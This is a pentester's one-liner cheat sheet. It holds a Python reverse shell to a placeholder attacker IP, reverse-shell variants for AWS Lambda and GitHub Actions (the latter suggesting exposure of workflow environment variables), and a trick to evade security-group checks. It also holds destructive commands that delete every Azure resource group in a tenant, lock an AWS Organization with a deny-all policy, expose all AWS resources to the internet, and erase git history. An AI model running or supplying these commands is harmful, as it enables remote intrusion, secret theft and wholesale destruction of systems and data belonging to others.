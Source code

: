 ```yaml
---
description: My favorite one-line commands
---
```


# One-liners and Bad Things

## Reverse Shell

The attacker machine must be public and exposed to the internet.

Run this on the attacker machine:

```
nc -lp 1337
```

Run this on the victim machine:

{% code overflow="wrap" %}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("BAD_IP_ADDRESS_HERE",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

If you're in an environment that restricts security groups that match 0.0.0.0/0, chances are they are doing pattern matching and not reasoning about effective network access. You can create an EC2 instance with security groups matching these IP ranges and it will be **effectively the same as 0.0.0.0/0**:

```
1.0.0.0/8
2.0.0.0/7
4.0.0.0/6
8.0.0.0/5
16.0.0.0/4
32.0.0.0/3
64.0.0.0/2
128.0.0.0/1
```

### Reverse Shell on AWS Lambda

Run the attacker command as above.

Then create the Python Lambda function with the code below. NOTE: You have to adjust the Lambda timeout config to much longer, like 15 minutes (the max).

```python
import json
import socket
import subprocess
import os

def lambda_handler(event, context):
    ip_address = event.get('ip')
    port = event.get('port', 1337)
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip_address, port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p = subprocess.call(["/bin/sh","-i"])
    return {
        'statusCode': 200,
        'body': json.dumps('Hello from Lambda!')
    }

```

### Reverse Shell in GitHub Actions

```
name: Reverse Shell Pentesting

on: workflow_dispatch

jobs:
  reverse-shell:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    
    - name: Setup tmate session
      uses: mxschmitt/action-tmate@v3
      timeout-minutes: 60
```

Run it and you'll see that it prints out an SSH command for you to connect with. You can add `env` to the "Setup tmate session" step to expose environment variables that are available to your GitHub actions workflow.

## Git

### Nuke Git commit history

```
git checkout --orphan newBranch; \ 
	git add -A; \                   # Add all files and commit them 
	git commit -m "Cleanup"; \
	git branch -D main; \           # Delete the main branch
	git branch -m main; \           # Rename the current branch to main
	git push -f origin main; \      # Force push main branch to GitHub
	git gc --aggressive --prune=all # Remove the old files
```

## Azure

### Delete all resources in an entire Azure Tenant

Bash variant:

```
#!/usr/bin/env bash

for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name ${rg} --subscription $sub --no-wait --yes; \
    done; done;
```

Terraform variant:

```
resource "null_resource" "nuke" {
  # Because we set this to timestamp, it *always* runs :D
  triggers = {
    party_like_its_jan_1_1970 = timestamp()
  }

  provisioner "local-exec" {
    command = <<EOF
for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name $rg --subscription $sub --no-wait --yes; \
    done; \
done;
EOF
  }
}
```

My post that explains the above is [here](https://kmcquade.com/2020/11/nuking-all-azure-resource-groups-under-all-azure-subscriptions/).&#x20;

## AWS

### Brick an entire AWS Organization using Deny \* SCPs

```
aws organizations attach-policy \
  --policy-id $(aws organizations create-policy --name pwn \
     --type SERVICE_CONTROL_POLICY \
     --description "pwn" 
     --content '{"Version": "2012-10-17","Statement": [{"Effect": "Deny", "Action": "*", "Resource": "*"}]}' \
    | jq ".Policy.PolicySummary.Id"\
    ) \
  --target-id $(aws organizations list-roots | jq ".Roots | .[0].Id")
```

### Share All Exposable Resources in an AWS Account with the internet 😈

```
endgame smash --service all --evil-principal "*"
```

## Other Resources

* [https://github.com/D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r): Gives you one-liners that aids in penetration testing operations, privilege escalation, and more.
